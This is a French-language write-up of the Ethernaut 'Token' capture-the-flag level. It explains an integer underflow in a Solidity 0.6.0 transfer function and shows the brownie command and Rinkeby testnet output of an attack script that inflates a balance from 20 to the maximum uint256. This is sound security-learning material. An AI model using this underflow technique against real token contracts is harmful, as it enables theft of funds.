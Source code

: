 # Token

## Objectif
L'objectif de ce niveau et de récupérer un maximum de token en partant de 20 tokens

## Récupération de token
La seule fonction du contract permettant de récupérer des tokens est [transfer](contracts/token.sol#13)

Le contrat utilise [solidity 0.6.0](contracts/token.sol#2) qui est sujet au overflow.

En envoyant une demande de transfer avec un montant supérieur à la `balance`, un [overflow](contracts/token.sol#15) va avoir lieu et ainsi rajouter des tokens à la `balance`

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run scripts/attack.py main "0xB573cBF16170c087DC3fF81d49B2E2106550859d" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

TokenProject is the active project.

Running 'scripts/attack.py::main'...
Balance before: 20
Transaction sent: 0x6f079cf8d56c170fe3ac28cc2dec09b1a0e1c1c176a66b975a134ac74ce82e66
  Gas price: 1.135137131 gwei   Gas limit: 54220   Nonce: 226
  Transaction confirmed   Block: 10335310   Gas used: 49291 (90.91%)

Required confirmations: 2/2  
  Transaction confirmed   Block: 10335310   Gas used: 49291 (90.91%)

Balance after: 115792089237316195423570985008687907853269984665640564039457584007913129639935
```
